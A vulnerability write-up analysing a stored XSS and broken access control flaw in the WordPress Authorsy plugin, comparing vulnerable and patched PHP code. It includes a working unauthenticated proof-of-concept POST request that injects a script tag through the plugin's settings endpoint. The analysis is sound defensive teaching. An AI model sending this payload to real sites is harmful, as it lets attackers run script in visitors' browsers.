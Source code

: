 ```yaml
---
title: CVE-2025-27006 Analysis & POC
description: Security Vulnerability in WordPress Authorsy Plugin.
date: 2025-10-04 19:37:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, xss]
weight: 1
images: []
featuredImage: "app.png"

lightgallery: true

toc:
auto: false
---
```


---

The vulnerability exists in the **Authorsy** plugin for WordPress prior to version **1.0.6**. This could allow an attacker to inject malicious code (e.g., redirect scripts, ads, or other HTML payloads) into the website, which would execute when visitors open the page.

* **CVE ID**: [CVE-2025-27006](https://www.cve.org/CVERecord?id=CVE-2025-27006)
* **Product**: [WordPress Authorsy Plugin](https://wordpress.org/plugins/authorsy/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.0.5
* **CVSS severity**: Medium (6.5)
* **OWASP Top 10**: A1: Broken Access Control
* **Required Privilege**: Subscriber

> Although the description requires **Subscriber** privileges, it can actually be exploited **Unauthenticated**.

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Authorsy**: v1.0.5 (vulnerable) and v1.0.6 (patched)
* **Diff tool**: **meld** or any tool to compare two versions

---

## Analysis

The plugin allows custom CSS, stores it in `wp_options`, and injects it directly into the `<style>` tag on pages. However, users can interact with the API to modify CSS without proper **access control**, leading to **Broken Access Control** and potential **XSS** if malicious payloads are inserted.

### Patch Diff

Use a diff tool to compare vulnerable and patched versions. Notice clear differences in two files: **core/settings/api-settings.php** and **core/enqueue-inline/enqueue-inline.php**.

**File core/enqueue-inline/enqueue-inline.php**

```php
public function custom_inline_css()
{
    $custom_css  = '';
    $ea_custom_css = authorsy_get_option('ea_custom_css');
    if(is_single()){
        $custom_css.= $ea_custom_css;
    }
    
    $custom_css .= "
    :root { 
        --ea-color-main: $primary_color;  
    }
    "
    wp_add_inline_style('authorsy-custom-css', $custom_css);
}
```

User data is inserted without validation, leaving it vulnerable to **XSS**.

Patched version:

```php
public function custom_inline_css()
{
    $custom_css  = '';
    $ea_custom_css = authorsy_get_option('ea_custom_css');
    if(is_single() && !empty($ea_custom_css)){
        // Sanitize and escape to prevent XSS
        $ea_custom_css = wp_strip_all_tags($ea_custom_css);
        $ea_custom_css = esc_html($ea_custom_css);
        $custom_css.= $ea_custom_css;
    }
    
    $custom_css .= "
    :root { 
        --ea-color-main: $primary_color;  
    }
    "
    wp_add_inline_style('authorsy-custom-css', $custom_css);
}
```

Sanitization ensures only safe CSS is injected.

![diff 1](diff1.png "Diff showing changes in enqueue-inline.php to sanitize custom CSS")

**File core/settings/api-settings.php**

Vulnerable:

```php
'permission_callback' => function () {
    return true;
},
```

Patched:

```php
'permission_callback' => function () {
    return current_user_can('manage_options');
},
```

The permission callback now restricts access to **admins**, mitigating **Broken Access Control** and indirectly reducing **XSS** risk.

![diff 2](diff2.png "Diff showing REST API permission callback changes in api-settings.php")

### How it works

`custom_inline_css()` is hooked to [`wp_head`](https://developer.wordpress.org/reference/hooks/wp_head/). When WordPress renders the `<head>` section, this function concatenates user options from `authorsy_get_option()` into `$custom_css` and adds it inline:

```php
$custom_css  = authorsy_get_option('ea_custom_css');
```

Since this data is stored in the database, this is **Stored XSS**.

---

### Exploit

Send a **POST** request to `/wp-json/authorsy/v1/settings` with an XSS payload:

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost
Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```

The payload closes the existing `<style>` and injects a `<script>` tag. Visiting any page will execute the XSS.

![XSS](xss.png "Injected XSS payload in <head> via custom CSS")

```html
<style>
    :root { 
        --ea-color-main: </style><script>alert(document.domain)</script><style>;  
    } 
</style>
```

---

## Conclusion

The `CVE-2025-27006` vulnerability in **Authorsy <= 1.0.5** demonstrates **Broken Access Control** combined with **XSS**. Root causes:

1. REST API lacks proper access control (`permission_callback` always true).
2. Custom CSS is inserted without **sanitization**, enabling injection of `<script>` tags.
3. Nonce verification does not stop execution when invalid, making security checks ineffective.

**Key takeaways**:

* Always use proper `permission_callback` to prevent **Broken Access Control**.
* Sanitize and escape user input before rendering in HTML/CSS/JS to prevent **XSS**.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Authorsy Plugin <= 1.0.5 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/authorsy/vulnerability/wordpress-authorsy-plugin-1-0-5-cross-site-scripting-xss-vulnerability)

---
